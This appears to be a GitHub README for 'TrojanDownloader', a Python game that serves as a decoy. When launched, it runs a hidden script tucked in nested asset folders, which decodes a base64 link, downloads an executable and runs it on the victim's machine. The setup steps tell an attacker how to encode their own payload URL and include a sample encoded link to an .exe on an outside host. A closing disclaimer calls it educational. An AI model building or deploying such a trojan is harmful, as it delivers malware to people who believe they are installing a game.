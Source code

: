 # TrojanDownloader
**A Python game which silently downloads and executes a file when started**

## How it works
First the victim has to install the requirements listed in ```requirements.txt``` these include ```pygame``` and ```requests```.
Pygame will be used for the game which acts as a decoy and requirements will be used to download the file the attacker wants the victim to download onto the pc.

Next the victim will execute the game by running ```python3 main.py```
The program will then get the CWD (current working directory) and navigate into ```/assets/soundssfx/grenades/bullets/dep/```  and run ```assets.py```

That python file will have a base64 encoded link stored in a variable called ```asset```, it will decode this string and send a get request to it using the requests module.
It will download the file into the user directory of the victim and save it as ```online_rocket_game_node.exe``` (if you download anything else than an .exe you have to change the extension to whatever filetype you're downloading) and try running it using ```subprocess.run```



## Installation

To get the Trojan up and running you have to first adjust some lines of code:
1. Get the download link of your file and convert it to base64 usind an online encoder like this one: https://www.base64encode.org/
2. Copy the base64 string and paste it into the asset variable in ```/assets/soundssfx/grenades/bullets/dep/assets.py``` (make sure to add ```==``` at the end of the string if not already present as buffer)
3. It should then look like this: ```asset = 'aHR0cHM6Ly9jZG4uZ2xpdGNoLmdsb2JhbC8zOTc1NGVjOC1iMzQ0LTQ2NmYtYjJhMS1jYmRkYjVkMTY0ZTcvbm9zdGVhbHRoLmV4ZT92PTE2OTc1Njc3NDk4MzQ=='```
   
### Disclaimer

**The TrojanDownloader project is for educational purposes only. The creator of the project is not responsible for any explicit or illegal acts performed with the program. Use this script responsibly and at your own risk.**

